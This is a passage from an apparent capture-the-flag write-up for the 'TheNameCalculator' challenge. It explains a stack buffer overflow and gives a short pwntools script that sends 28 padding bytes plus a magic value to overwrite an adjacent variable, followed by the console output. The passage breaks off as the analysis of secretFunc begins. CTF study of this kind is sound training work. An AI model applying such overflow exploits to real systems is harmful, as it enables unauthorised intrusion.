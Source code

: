 The program reads up to 0x20 (32) bytes of the the user input into the `input` buffer, then compares a different buffer (`magic_number`) to a magic value (0x6A4B825) and if they are equal, jumps to the `secretFunc`. Otherwise, we get the standard output ("I've heard better").

What's the relation between `input` and `magic_number`?

```
input= byte ptr -2Ch
magic_number= dword ptr -10h
var_C= dword ptr -0Ch
argc= dword ptr  8
argv= dword ptr  0Ch
envp= dword ptr  10h
```

So `input` is 0x2C - 0x10 = 28 bytes long, and `magic_number` is another 4 bytes long - exactly enough to easily overflow `input` when reading the input from the user.

Therefore, our exploit so far will be:

```python
from pwn import *

MAGIC_VALUE = 0x6A4B825

p = process("./TheNameCalculator")
p.recvuntil("name?")
p.send("A" * 28 + p32(MAGIC_VALUE))
p.interactive()
```

And running it produces:

```console
root@kali:/media/sf_CTFs/noxale/name_calc# python exploit.py 
[+] Starting local process './TheNameCalculator': pid 30144
[*] Switching to interactive mode

Say that again please
$  
```

At this point, we can enter another string. The output, for example, will be:

```console
Say that again please
$ Fake Name
Your name was encrypted using the best encryption in the world
This is your new name: \x15sS\x16x\x04I:
[*] Process './TheNameCalculator' stopped with exit code 0 (pid 30144)
[*] Got EOF while reading in interactive
```

The next step would be to analyze `secretFunc`.

The function starts with the initialization of some local variables:

